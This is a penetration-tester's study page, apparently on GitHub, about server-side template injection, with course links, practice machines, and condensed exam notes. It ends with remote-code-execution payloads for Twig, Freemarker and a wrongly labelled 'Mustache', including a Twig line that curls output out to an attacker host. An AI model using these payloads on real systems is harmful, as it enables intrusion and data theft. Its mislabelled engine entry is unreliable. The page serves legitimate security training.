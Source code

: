 ![image](https://github.com/user-attachments/assets/96c1a0f1-af0c-4757-80a9-61e23a072119)

# Template Injection

## Training Resources
---

**Courses**

*Free*
- [PortSwigger Academy - Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection)

*Paid*
- [HTB - Server-Side Attacks](https://academy.hackthebox.com/course/preview/server-side-attacks)
- [THM - Server-Side Template Injection](https://tryhackme.com/r/hacktivities/search?page=1&kind=all&searchText=server+side+temp)
- [THM - SSTI](https://tryhackme.com/r/room/learnssti)

#

### Hack The Box Machines
*These machines are tagged as containing Template Injection by HTB, the difficulty refers to the box as a whole and not necessarily the Template Injection element.*

| Machine Name | Difficulty | Completed |
| -- | -- | -- |
| Smart | Easy | |
| RedPanda | Easy | |
| Perfection | Easy | |
| Nunchucks | Easy | |
| Late | Easy | |
| Doctor | Easy | |
| Crushed | Easy | |
| Art | Easy | |
| Bolt | Medium | |
| Gobox | Medium | |
| GoodGames | Medium | |
| Flustered | Medium | |
| Epsilon | Medium | |
| Sandworm | Medium | |
| Talkative | Hard | |
| Hancliffe | Hard | |
| OverGraph | Hard | |
| Spider | Hard | |
| Oz | Hard | |


### Other Resources
---
**PT Guides**
- [HackTricks SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [Hacker Recipes - Server-Sie Template Injection](https://www.thehacker.recipes/web/inputs/ssti#%F0%9F%9B%A0%EF%B8%8F-ssti-server-side-template-injection)
#
**Methodologies**
- [OWASP Methodology - Server Side Template Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection)
#
**Wordlists**
- [PATT SSTI Wordlists](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
#

## Condensed Notes
This is a condensed version of the notes I used during OSWA and are by no means complete. Make your own notes and methodology, building off these basic steps. 

- Identify if the application is using templates anywhere on the target.
- If you believe it is, figure out the injection point and where you can view the injection response. Try injecting payloads into the injection point to determine the template engine in use. An example of how this can be done can be seen in the diagram below:
![image](https://github.com/user-attachments/assets/360aee24-7675-405a-bcc8-b96003437561)
- Where you cannot identify where to view the injection, consider blind injection, can you inject into emails for example. Use out of band attacks here like connecting back to an attacker controlled web server.
- Other ways to identify the templating engine is to look for patterns in:
  - Paths - Certain template engines use common paths, for example junja2 and Flask often have a /templates/ directory.
  - File Extensions - Are there files present with extensions that give away the engine, for example .twig, .mistache etc.
  - Headers - Are there clues to the engine in the headers returned from the server.
- Once injection and the engine have been identified, try to get RCE. This might require reading the engine documentation. Some RCE examples can be seen below for various templating engines:
```bash
# Twig
{% set exfil = output| url_encode %}
{{[0]|reduce('system','curl http://<ip>/?exfil=' ~ exfil)}}

# Freemarker
${"freemarker.template.utility.Execute"?new()("id")}

# Mustache
${__import__('os').popen('whoami').read()}
```
